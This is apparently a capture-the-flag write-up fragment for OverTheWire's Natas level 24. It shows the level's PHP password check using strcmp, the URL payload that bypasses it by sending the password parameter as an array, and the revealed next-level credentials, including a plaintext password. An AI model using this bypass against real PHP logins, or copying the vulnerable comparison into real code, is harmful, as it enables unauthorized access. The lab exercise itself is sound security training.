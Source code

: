 https://danuxx.blogspot.com/2013/03/unauthorized-access-bypassing-php-strcmp.html

<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>

http://natas24.natas.labs.overthewire.org/?passwd[]=a

Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23

The credentials for the next level are:

Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
